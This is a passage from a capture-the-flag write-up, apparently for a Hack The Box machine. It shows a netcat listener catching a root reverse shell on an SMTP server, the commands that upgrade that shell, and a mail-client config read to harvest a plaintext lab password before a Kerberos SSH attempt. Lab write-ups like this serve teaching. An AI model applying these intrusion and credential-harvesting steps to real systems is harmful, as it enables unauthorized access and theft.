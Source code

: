 Almost instantly after sending the last `.`, we recieve a reverse shell as root on the SMTP server. Before we continue our flag hunt we upgrade the shell and fix the terminal size.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.162.100.
Ncat: Connection from 10.129.162.100:58146.
bash: cannot set terminal process group (13): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
root@smtp:~# export TERM=xterm
export TERM=xterm
root@smtp:~# ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

root@smtp:~# stty rows 55 cols 236
```

## SSH with Kerberos

In the mail-client configuration in j.nakazawa's home directory we find some credentials, which unfortunately don't work with ssh.

```
root@smtp:/home/j.nakazawa# cat .msmtprc 
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp 
```

Since kerberos is also enabled on the machine we try to use it to authenticate over ssh  next by creating a ticket using the password and the username.
